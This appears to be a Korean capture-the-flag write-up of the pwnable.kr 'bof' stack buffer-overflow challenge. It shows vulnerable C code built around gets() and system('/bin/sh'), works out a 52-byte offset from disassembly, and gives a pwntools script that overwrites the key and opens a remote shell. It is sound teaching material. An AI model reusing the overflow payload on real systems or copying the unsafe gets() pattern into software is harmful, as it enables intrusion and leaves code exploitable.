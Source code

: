![](../../Attachments/789FE7B2-FC75-46E0-ADCA-D5BEF6ED126F.png)


### Buffer Overflow
- 스택 버퍼 오버플로우
- 힙 버퍼 오버플로우



우분투에서 wget을 통해 파일을 다운받는다.
`$ wget http://pwnable.kr/bin/bof`

`http://pwnable.kr/bin/bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];    // 32바이트 크기의 배열
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
- 0xdeadbeef를 key로 함수에 전달하고, key가 0xcafebabe와 일치하면 셸을 실행함
- `gets`함수로 사용자 입력을 받아 배열 `overflowme`에 저장함
	- `gets`는 입력 길이를 검증하지 않으므로, 입력이 32바이트를 초과하면 메모리의 다른 영역을 덮어쓸 수 있음
	- 이를 통해 key 변수의 값을 변경할 수 있음


#### 풀이

key 값을 원하는 값으로 바꿔주기 위해서는 입력이 가능한 overflowme와 key 변수 간의 거리를 알아야 한다.

![](../../Attachments/986F88B2-A8F9-4AEB-99F2-D7655936CDB3.png)

- func 함수의 disassembly 코드를 보면 4번의 call이 있는데, 각각 printf(), gets(), system(), printf()를 의미한다.
	- gets의 인자로 overflowme가 들어가고, 두 번째 call 위의 lea에서 [ebp-0x2c]의 주소를 인자로 받을 수 있게 하므로 overflowme는 [ebp-0x2c]에 있다.
	- key는 0xcafebabe와 비교하기 때문에, func+40에서 [ebp+0x8] 위치에 있다.
		- breakpoint를 걸고 실행시키면 overflowme 값을 받는 것이 보인다.![](../../Attachments/1E6568B2-7D36-41A3-AA30-0B1B2D286B8E.png)

key인 [ebp+0x8]과 overflowme [ebp-0x2c]의 거리는 52바이트이다.

```python
#!/usr/bin/env python
from pwn import *
#context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.sendline('A'*52+'\xbe\xba\xfe\xca')
conn.interactive()
```

`$ python3 bofPwn.py`

![](../../Attachments/95374845-63C2-4195-9B44-D6359AC901E0.png)